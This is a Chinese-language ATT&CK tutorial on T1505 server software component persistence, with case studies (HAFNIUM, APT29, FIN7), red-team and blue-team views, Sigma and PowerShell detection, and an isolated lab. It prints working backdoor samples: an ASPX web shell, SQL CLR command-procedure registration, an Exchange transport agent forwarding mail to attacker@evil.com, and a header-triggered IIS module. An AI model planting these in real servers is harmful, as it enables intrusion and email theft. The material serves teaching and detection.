

# T1505 - 服务器软件组件

## 一句话通俗理解

> 想象一下，攻击者不是在你家公司大楼里偷偷藏个人，而是把整个保安培训教材都改了——以后每个新培训出来的保安都按"内鬼手册"上岗。服务器软件组件就是这个套路：攻击者篡改服务器软件的扩展组件（Web模块、SQL存储过程、邮件代理），让恶意逻辑成为服务器"原生功能"的一部分，重启重装都不丢。

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 攻击者篡改服务器软件的扩展/插件/模块，让恶意代码成为服务器原生功能 |
| 为什么危险？ | 恶意代码混在合法服务器进程里，重启不会丢失，日志难区分 |
| 谁需要关心？ | Web服务器管理员、DBA、邮件系统管理员、云平台运维 |
| 你的第一步防御 | 对服务器扩展目录做文件完整性监控（FIM） |
| 如果只做一件事 | 监控IIS/Apache/Nginx模块加载和SQL存储过程变更 |

## 难度等级

⭐⭐⭐ **高级**：需要服务器软件扩展机制知识（IIS模块、Apache模块、SQL CLR、Exchange Transport Agent）

**前置知识要求**：
- 了解Web服务器扩展机制（IIS HttpModule、Apache模块、Nginx模块）
- 熟悉数据库扩展（SQL Server CLR、MySQL UDF、PostgreSQL扩展）
- 理解邮件服务器代理（Exchange Transport Agent、Postfix milter）
- 知道如何注册/卸载这些扩展

## 前置知识检查

在读下面的内容前，确认你能回答这些问题：

- [ ] IIS的HttpModule和ISAPI Filter有什么区别？
- [ ] SQL Server的CLR存储过程是怎么注册到数据库的？
- [ ] Exchange Transport Agent在邮件流转中起什么作用？
- [ ] 为什么说"Web Shell是服务器软件组件的一种"？

> 如果有3个以上答不上来，建议先补一下服务器扩展机制基础再继续。

## 技术描述

### 用人话说：服务器软件组件是什么？

服务器软件（如IIS、Apache、SQL Server、Exchange）不是铁板一块——它们都支持**扩展机制**，允许第三方开发插件增强功能：

- **Web服务器**：IIS的HttpModule/ISAPI、Apache的mod_xxx、Nginx模块
- **数据库**：SQL Server的CLR存储过程、MySQL的UDF（用户定义函数）
- **邮件服务器**：Exchange Transport Agent、Postfix的milter
- **云平台**：O365的Service Principal、Google Workspace的Workspace App

**进阶理解**：这些扩展组件被服务器进程加载执行，拥有服务器权限，且配置存储在服务器配置文件/数据库/注册表里——**重启服务器不会丢失**。攻击者植入恶意扩展后，恶意代码就变成了服务器的"原生功能"，每次服务器处理请求/邮件/SQL查询时都会触发。

### 四类常见服务器组件持久化

#### 1. Web Shell（T1505.003）

最经典的服务器组件持久化。攻击者在Web根目录植入`.aspx`/`.jsp`/`.php`文件，Web服务器把它当作正常页面处理：

```aspx
<!-- cmd.aspx 简化版Web Shell -->
<%@ Page Language="C#" %>
<%
string cmd = Request["c"];
if (!string.IsNullOrEmpty(cmd)) {
    System.Diagnostics.Process p = new System.Diagnostics.Process();
    p.StartInfo.FileName = "cmd.exe";
    p.StartInfo.Arguments = "/c " + cmd;
    p.StartInfo.UseShellExecute = false;
    p.StartInfo.RedirectStandardOutput = true;
    p.Start();
    Response.Write("<pre>" + p.StandardOutput.ReadToEnd() + "</pre>");
}
%>
```

#### 2. SQL Stored Procedure（T1505.001）

攻击者用SQL Server CLR注册恶意.NET程序集为存储过程：

```sql
-- 启用CLR
sp_configure 'clr enabled', 1;
GO
RECONFIGURE;
GO

-- 创建恶意程序集
CREATE ASSEMBLY SqlHelper FROM 'C:\temp\evil.dll' WITH PERMISSION_SET = UNSAFE;
GO

-- 注册为存储过程
CREATE PROCEDURE dbo.RunCmd @cmd NVARCHAR(MAX) AS EXTERNAL NAME SqlHelper.[SqlHelper.Class1].RunCmd;
GO

-- 调用
EXEC dbo.RunCmd 'whoami';
```

存储过程存在数据库里，数据库备份恢复都带着后门。

#### 3. Transport Agent（T1505.002）

Exchange Transport Agent在邮件流转时执行，攻击者可拦截/复制所有邮件：

```csharp
// 简化的Exchange Transport Agent
public class EvilAgent : RoutingAgent {
    protected override void OnRoutedMessage(RoutedMessageEventSource source, QueuedMessageEventArgs e) {
        // 复制所有邮件到外部
        MailMessage mail = new MailMessage();
        mail.To.Add("attacker@evil.com");
        mail.From = e.MailItem.Message.Sender.SmtpAddress;
        mail.Subject = e.MailItem.Message.Subject;
        mail.Body = e.MailItem.Message.Body;
        smtpClient.Send(mail);
        // 继续正常流转
    }
}
```

#### 4. IIS Module（T1505.004）

IIS HttpModule拦截所有HTTP请求，每次访问网站都触发恶意逻辑：

```csharp
// 恶意HttpModule
public class EvilModule : IHttpModule {
    public void Init(HttpApplication context) {
        context.BeginRequest += (s, e) => {
            // 每个请求都检查是否有特殊头，有则执行命令
            if (HttpContext.Current.Request.Headers["X-Cmd"] != null) {
                var cmd = HttpContext.Current.Request.Headers["X-Cmd"];
                var result = new ProcessStartInfo("cmd.exe", "/c " + cmd) { 
                    RedirectStandardOutput = true, UseShellExecute = false 
                };
                HttpContext.Current.Response.Write(Process.Start(result).StandardOutput.ReadToEnd());
                HttpContext.Current.Response.End();
            }
        };
    }
}
```

## 子技术列表

| 子技术ID | 名称 | 平台 | 一句话说明 |
|---------|------|------|-----------|
| T1505.003 | Web Shell | Windows/Linux | 在Web服务器植入可执行命令的脚本文件 |
| T1505.001 | SQL Stored Procedures | Windows | 用CLR注册恶意存储过程 |
| T1505.002 | Transport Agent | Windows | 篡改Exchange邮件传输代理 |
| T1505.004 | IIS Components | Windows | 植入IIS HttpModule/ISAPI扩展 |
| T1505.005 | Terminal Services DLL | Windows | 篡改RDP相关DLL |
| T1505.006 | Container Layer | Container | 篡改容器运行时组件 |

### 重点子技术详写

#### T1505.003 Web Shell（最常见）

Web Shell是攻击者最常用的服务器持久化方式。特点：
- 文件名伪装成正常页面（`index.aspx.bak`、`/wp-content/uploads/config.php`）
- 混在Web根目录大量文件中，难以人工发现
- 每次HTTP请求都可能触发执行
- Web服务器权限运行（通常是IIS_IUSRS或www-data）

#### T1505.001 SQL Stored Procedures

CLR存储过程持久化的隐蔽性极高：
- 存储在数据库系统表中，不依赖文件系统
- 数据库备份/还原/主从同步都会复制后门
- 以SQL Server服务账号权限执行（通常是高权限）
- 不会出现在文件完整性监控（FIM）视野里

## 攻击流程



## 真实案例

### 案例1：HAFNIUM利用Web Shell攻击Exchange（2021 ProxyLogon）

- **时间**：2021年1月-3月
- **目标**：全球Exchange Server（政府、军工、医疗、高校）
- **攻击组织**：HAFNIUM（中国背景APT，微软归因）
- **手法**：利用ProxyLogon 0day漏洞（CVE-2021-26855）入侵Exchange后，在`C:\inetpub\wwwroot\aspnet_client\`目录植入Web Shell（如`errorEE.aspx`、`shell.aspx`）。Web Shell伪装成系统错误页面，实际可执行任意命令、读写文件、横向移动。攻击者还植入中国菜刀/蚁剑一句话木马作为备用持久化。
- **影响**：全球超30,000个组织受影响，包括部分被勒索软件二次攻击
- **数据来源**：Microsoft MSTIC报告 + Volexity分析 + CISA Alert AA21-058A（一手厂商+政府报告）

> 🎯 **真实攻击**：CISA Alert AA21-058A详细列出了HAFNIUM使用的Web Shell文件路径和特征，是检测Web Shell的标杆文档

### 案例2：APT29植入Exchange Transport Agent持久化（2019-2020）

- **时间**：2019年6月-2020年12月
- **目标**：欧洲外交部、智库
- **攻击组织**：APT29（Cozy Bear，俄罗斯SVR背景）
- **手法**：APT29通过Spearphishing入侵员工账户后，横向移动到Exchange服务器，安装自定义Transport Agent。该Agent拦截所有进出邮件，将含敏感关键词（"NATO""missile""sanctions"）的邮件转发到C2服务器，同时不影响正常邮件流转。Agent被Exchange服务器自动加载，重启后仍生效。
- **影响**：长期窃取外交电报和政策文件，受害组织数月未察觉
- **数据来源**：ESET《APT29针对欧洲外交机构报告》（一手厂商报告）

> 📚 **深入了解**：ESET报告详细分析了Transport Agent的安装机制和检测方法

### 案例3：FIN7用SQL CLR存储过程持久化零售业数据库（2017-2018）

- **时间**：2017年5月-2018年7月
- **目标**：美国餐饮零售业Point-of-Sale系统
- **攻击组织**：FIN7（Carbanak Group，金融犯罪组织）
- **手法**：FIN7通过钓鱼邮件入侵员工工作站，横向移动到SQL Server数据库服务器后，启用CLR并注册恶意.NET程序集`SqlServerUpdate`为存储过程`sp_UpdateStats`。该存储过程在调用时拉起Cobalt Strike beacon，且数据库每次重启后存储过程仍在。攻击者通过应用层定期调用该存储过程触发后门。
- **影响**：窃取超1500万张信用卡数据
- **数据来源**：Mandiant FIN7追踪报告 + 司法部起诉书（一手厂商+政府报告）

> 🎯 **真实攻击**：美国司法部起诉书（Case 1:18-cr-00264）详细记录了FIN7的SQL CLR持久化手法

## 红队视角

### 可持续利用手段

| 手段 | 说明 | 检测难度 |
|------|------|---------|
| Web Shell伪装 | 文件名仿系统页面，内容编码混淆 | 中 |
| CLR存储过程 | 不依赖文件系统，随数据库备份迁移 | 高 |
| Transport Agent | 混在合法Exchange代理中 | 高 |
| HttpModule全局拦截 | 每个请求都触发，可隐藏特殊后门 | 高 |
| 数据库主从复制传播 | 后门存储过程自动同步到从库 | 极高 |

### 可复制性分析

| 维度 | 评分 | 说明 |
|------|------|------|
| 技术门槛 | ⭐⭐⭐⭐ | 需要服务器扩展开发能力 |
| 工具可用性 | ⭐⭐⭐ | 需定制开发 |
| 检测规避 | ⭐⭐⭐⭐ | 混在合法扩展中难发现 |
| 跨平台适用 | ⭐⭐⭐ | 主要Windows/Exchange环境 |

## 蓝队视角

### 用人话说：怎么发现"服务器被改装了"？

服务器扩展就像员工手册里的"岗位职责清单"——正常情况下每条都有来路。防御核心是**扩展清单基线+文件完整性监控+行为分析**：盘点所有合法扩展做基线，监控扩展目录变更，分析服务器进程异常行为。

### 检测规则

#### Web Shell检测：Web根目录文件监控

```yaml
# Sigma规则：检测可疑Web Shell文件创建
title: 可疑Web Shell文件创建
logsource:
    product: windows
    service: sysmon
detection:
    selection:
        EventID: 11
        TargetFilename|contains:
            - 'C:\inetpub\wwwroot\'
            - 'C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\'
        TargetFilename|endswith:
            - '.aspx'
            - '.asp'
            - '.ashx'
            - '.config'
    filter_legitimate:
        TargetFilename|contains:
            - 'App_Offline.htm'
    condition: selection and not filter_legitimate
falsepositives:
    - 合法Web应用部署
level: high
```

```powershell
# PowerShell：扫描Web目录可疑文件
Get-ChildItem -Path C:\inetpub\wwwroot -Recurse -Include *.aspx,*.asp,*.ashx,*.config |
  Where-Object { $_.LastWriteTime -gt (Get-Date).AddDays(-7) } |
  Select FullName, LastWriteTime, Length
```

#### SQL CLR检测：监控程序集注册

```sql
-- 查询所有已注册的CLR程序集
SELECT name, permission_set_desc, create_date, modify_date
FROM sys.assemblies
WHERE is_user_defined = 1
ORDER BY create_date DESC;

-- Sigma风格：监控CLR启用和程序集创建事件
-- SQL Server Audit事件: AUDIT_PERMISSION_CHANGE + ASSEMBLY_CREATE
```

#### Transport Agent检测：Exchange

```powershell
# 列出所有已安装的Transport Agent
Get-TransportAgent | Format-Table Name, Enabled, Priority

# 关注非Microsoft官方的Agent
Get-TransportAgent | Where-Object { $_.Name -notlike "Microsoft*" }
```

### 检测建议分层

| 层次 | 检测点 | 工具 |
|------|--------|------|
| 网络层 | Web Shell回连C2 | WAF + IDS |
| 主机层 | Web目录文件创建/服务器扩展注册 | Sysmon + FIM |
| 应用层 | 数据库程序集变更/邮件代理变更 | SQL Audit + Exchange日志 |

## 避坑指南

| 坑 | 说明 | 正确做法 |
|----|------|---------|
| 只扫Web根目录 | Web Shell可能藏在虚拟目录/子应用 | 枚举所有IIS站点路径 |
| 忽略CLR存储过程 | 只查文件忽略数据库扩展 | 定期审计sys.assemblies |
| Transport Agent盲区 | Exchange代理常被忽视 | 定期Get-TransportAgent审查 |
| 删了Web Shell就以为清理干净 | 配置文件可能还有引用 | 检查web.config/applicationHost.config |
| 忽略O365云代理 | 云环境也有Transport Agent | O365 Admin Center审计 |

## 检测建议

### 网络层检测

- Web服务器异常出网（Web进程不应主动外连）
- 数据库服务器异常网络连接
- Exchange服务器向非邮件服务器发数据

### 主机层检测（最重要）

1. **Sysmon配置**：监控Web目录文件创建
```xml
<RuleGroup name="WebShell Creation" groupRelation="or">
  <EventID>11</EventID>
  <TargetFilename condition="contains">inetpub\wwwroot</TargetFilename>
</RuleGroup>
```

2. **文件完整性监控**：
```powershell
# AIDE配置：监控IIS配置和Exchange扩展目录
# C:\Windows\System32\inetsrv\config\applicationHost.config
# C:\Program Files\Microsoft\Exchange Server\V15\TransportRoles\agents\
```

### 应用层检测

- SQL Server Audit：监控ASSEMBLY相关操作
- Exchange日志：监控Transport Agent安装/卸载
- IIS日志：分析异常URL访问模式

## 缓解措施

| 措施 | 说明 | 实施难度 |
|------|------|---------|
| Web目录文件完整性监控 | AIDE/Tripwire监控Web根目录 | 中 |
| 禁用SQL CLR | 非必需场景关闭clr enabled | 低 |
| Exchange代理白名单 | 仅允许经审批的Transport Agent | 中 |
| 最小权限运行 | Web服务用低权限账户运行 | 中 |
| WAF规则 | 拦截已知Web Shell特征 | 中 |
| 定期审计扩展清单 | 每月对比扩展基线 | 低 |
| 数据库备份隔离 | 备份文件单独存储防污染 | 中 |

## 动手实验

### 实验1：检测Web Shell（隔离环境）

```powershell
# 1. 在测试IIS站点创建模拟Web Shell
$webRoot = "C:\inetpub\wwwroot\testsite"
New-Item -ItemType Directory -Path $webRoot -Force
@'
<%@ Page Language="C#" %>
<% Response.Write(System.Diagnostics.Process.Start("cmd.exe", "/c " + Request["c"]).StandardOutput.ReadToEnd()); %>
'@ | Out-File "$webRoot\test.aspx"

# 2. 扫描Web目录近期修改的aspx文件
Get-ChildItem -Path C:\inetpub\wwwroot -Recurse -Include *.aspx |
  Where-Object { $_.LastWriteTime -gt (Get-Date).AddDays(-1) } |
  Select FullName, LastWriteTime

# 3. 分析文件内容特征（含Request/Process关键字）
Select-String -Path "$webRoot\*.aspx" -Pattern "Request\[|Process\.Start|cmd\.exe" -SimpleMatch

# 预期输出：
# C:\inetpub\wwwroot\testsite\test.aspx  2026-07-10  ...
# test.aspx:1: <% Response.Write(System.Diagnostics.Process.Start("cmd.exe", "/c " + Request["c"]).StandardOutput.ReadToEnd()); %>

# 清理
Remove-Item "$webRoot\test.aspx"
```

### 专用工具表

| 工具 | 平台 | 用途 |
|------|------|------|
| ASPXSpy | Windows | Web Shell检测参考样本 |
| FIM (AIDE) | 全平台 | 文件完整性监控 |
| Web Shell Detector | PHP/ASP | Web Shell扫描工具 |
| SQL Server Audit | Windows | 数据库审计 |
| Exchange Transport Log | Windows | 邮件代理日志分析 |

## 术语解释

| 术语 | 解释 |
|------|------|
| Web Shell | 可通过Web浏览器执行命令的脚本文件 |
| CLR | Common Language Runtime，.NET运行时，SQL Server可加载CLR程序集 |
| UDF | User Defined Function，MySQL用户自定义函数 |
| Transport Agent | Exchange邮件传输代理，在邮件流转时执行 |
| HttpModule | IIS的HTTP请求处理模块 |
| ISAPI Filter | IIS的传统扩展接口 |
| IIS_IUSRS | IIS应用池默认身份组 |

## 参考资料

### 📚 深入了解（MITRE官方）
- [MITRE ATT&CK T1505](https://attack.mitre.org/techniques/T1505/) - 官方技术页面
- [MITRE ATT&CK T1505.003](https://attack.mitre.org/techniques/T1505/003/) - Web Shell
- [MITRE ATT&CK T1505.001](https://attack.mitre.org/techniques/T1505/001/) - SQL Stored Procedures

### 🔧 动手试试
- [Sysinternals Sysmon](https://docs.microsoft.com/sysinternals/downloads/sysmon) - 文件创建监控
- [AIDE](https://aide.github.io/) - 文件完整性监控
- [Microsoft SQL Audit文档](https://docs.microsoft.com/sql/relational-databases/security/auditing/sql-server-audit-database-engine) - 数据库审计

### 🎯 真实攻击
- [CISA Alert AA21-058A](https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-058a) - HAFNIUM Web Shell分析
- [ESET APT29报告](https://www.welivesecurity.com/) - Transport Agent持久化案例
- [Mandiant FIN7报告](https://www.mandiant.com/) - SQL CLR存储过程持久化

## 版本历史

| 版本 | 日期 | 变更 |
|------|------|------|
| v3.1 | 2026-07-10 | 从跨战术污染重写为持久化(TA0003)正确内容 |
